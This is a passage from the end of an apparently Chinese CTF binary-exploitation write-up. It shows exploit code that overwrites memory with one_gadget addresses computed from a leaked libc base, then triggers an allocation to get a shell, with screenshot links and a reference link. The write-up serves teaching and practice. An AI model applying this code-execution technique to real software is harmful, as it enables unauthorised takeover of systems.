 ```plain
og=libc_base+ogs[1]
payload = p64(og)*8+p64(og)
edit(9,payload)
```

然后编辑一下直接传入 onegadget

[![](assets/1701612337-a6891633e3866438da66dec8b7d5fa40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173143-402db314-1d72-1.png)

```plain
add(0x20)
```

成功 getshell

[![](assets/1701612337-2c083807d463a05f06731c116d36dd36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173158-48ed9d84-1d72-1.png)

## 参考文章

[https://www.cnblogs.com/Rookle/p/13140339.html](https://www.cnblogs.com/Rookle/p/13140339.html)

